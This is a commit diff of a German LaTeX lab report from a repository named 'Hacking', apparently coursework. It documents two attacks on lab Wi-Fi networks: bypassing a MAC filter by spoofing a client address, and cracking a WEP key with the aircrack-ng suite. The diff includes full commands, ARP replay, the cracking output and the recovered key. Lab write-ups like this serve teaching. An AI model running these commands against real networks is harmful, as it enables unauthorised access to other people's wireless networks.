

Before and after one commit to hikhvar/Hacking, a LaTeX document (Protokolle/1/1_protokoll.tex): part of the page before the commit and two parts of pages 1 and 2 of 2 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Rewrite the text for assignment one.

```diff
--- a/Protokolle/1/1_protokoll.tex
+++ b/Protokolle/1/1_protokoll.tex
@@ -30,18 +30,56 @@
 
 \subsection{Angriff auf OpenBernd}
 
+Mittels \texttt{airodump-ng -w output mon8} beobachteten wir den WLAN Netzwerkverkehr. Das Interface \texttt{mon8} war das Zugangsinterface zum Interface \texttt{wlan1} im Monitormode. Die folgende Zeile fiel aus dabei auf. Ein Gerät mit der MAC Adresse \texttt{00:C0:CA:55:54:5C} hat sich versucht am Netzwerk \texttt{OpenBernd} anzumelden.
+\begin{small}
+\begin{verbatim}
+Station MAC, First time seen, Last time seen, Power, # packets, BSSID, Probed ESSIDs
+....
+00:C0:CA:55:54:5C, 2013-11-11 16:39:42, 2013-11-11 16:39:42, -61,        1, 64:70:02:1C:4F:3A, OpenBernd
+...
+\end{verbatim}
+\end{small}
+Nach dem wir mittels \texttt{ip link set dev wlan1 address 00:C0:CA:55:54:5C} die MAC Adresse unseres Interface \texttt{wlan1} geändert hatten, konnten wir uns mit dem Netz \texttt{OpenBernd} verbinden.
+
 \subsection{Angriff auf Bernd}
 
-Als erstes haben wir mit dem Kommando \texttt{aireplay-ng --test -e Bernd -a 64:70:02:1A:B1:81 --ignore-negative-one wlan1} überprüft, ob wir in das Netzwerk Bernd Packete injizieren können.
-Da unser Client nicht am Access Point authentifiziert ist, führen wir mittels \texttt{aireplay-ng  -1 0 -e Bernd -a 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F --ignore-negative-one wlan1} eine Fakeauthentifizierung durch.
 
-IVs mitschneiden: \texttt{airodump-ng -c 2 --bssid 64:70:02:1A:B1:81 -w output wlan1}
+Als erstes haben wir mit dem folgenden Kommando überprüft, ob wir in das Netzwerk Bernd Packete injizieren können.
+\begin{verbatim}
+aireplay-ng --test -e Bernd -a 64:70:02:1A:B1:81 --ignore-negative-one wlan1
+\end{verbatim}
+Da unser Client nicht am Access Point authentifiziert ist, führen wir mittels eine Fakeauthentifizierung durch.
+\begin{verbatim}
+aireplay-ng  -1 0 -e Bernd -a 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F --ignore-negative-one wlan1
+\end{verbatim}
+Dannach schnitten wir alle Packete im Netzwerk mit:
+\begin{verbatim}
+airodump-ng -c 2 --bssid 64:70:02:1A:B1:81 -w output wlan1
+\end{verbatim}
 
-ARP Replay:  \texttt{aireplay-ng -3 -b 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F wlan1}
+Um die Menge an beobachteten Packeten zu erhöhen fuhren wir eine ARP Replayattacke. Dabei wird jedes abgefangene Packet wieder in das Netzwerk eingespielt.
+\begin{verbatim}
+aireplay-ng -3 -b 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F wlan1
+\end{verbatim}
+Nach circa 10 Minuten Packete mitschneiden knackten wir auf Basis der mitgeschnittenen Packete den WEP PreSharedKey:
+\begin{verbatim}
+aircrack-ng -b 64:70:02:1A:B1:81 output*.cap
+\end{verbatim}
+\begin{tiny}
+\begin{verbatim}
+                                                                 [00:00:00] Tested 835 keys (got 93526 IVs)
 
-Aus den Abgefangen Packeten den IV berechnen: \texttt{aircrack-ng -b 64:70:02:1A:B1:81 output*.cap}
+   KB    depth   byte(vote)
+    0    0/ 25   71(122112) F5(107008) 3B(105216) 1B(103680) 94(103424) 90(103168) 3A(102656) A6(102656) 59(102400) CA(102400) 45(102144) 8B(101376) 9B(101120) 56(100864)
+    1    1/  1   E6(108288) 64(106496) 48(105472) 08(104960) 93(103936) 16(103424) 6B(103168) 92(102912) AA(102912) 74(102656) 56(102400) D9(102400) 9A(102144) 9F(102144)
+    2    0/  1   F9(131328) EF(108288) D0(107264) DF(107264) D2(105984) D9(105216) 02(104448) 7C(103936) E2(103168) 12(102912) C6(102912) 1A(102144) AB(102144) EA(102144)
+    3    0/  1   47(136960) 35(107776) 6B(106240) 74(106240) A2(106240) 08(105984) 70(104960) A3(104192) BE(103168) 22(102656) 31(102656) 87(102656) A8(102656) E8(102656)
+    4   14/  4   50(102144) 93(101632) 40(101120) B5(100864) 17(100608) 44(100608) 5B(100352) 75(100352) 18(100096) A3(100096) 55(99584) E3(99584) 26(99328) 65(99328)
 
-
-TODO: Link entfernen:
+     KEY FOUND! [ 71:32:56:4E:4B:7A:31:47:73:52:71:59:41 ] (ASCII: q2VNKz1GsRqYA )
+	Decrypted correctly: 100%
+\end{verbatim}
+\end{tiny}
+Der verwendete WEP Key im Netzwerk Bernd lautet also: \texttt{q2VNKz1GsRqYA}.
 %http://www.aircrack-ng.org/doku.php?id=simple_wep_crack#step_1_-_start_the_wireless_interface_in_monitor_mode_on_ap_channel
 \end{document}
```
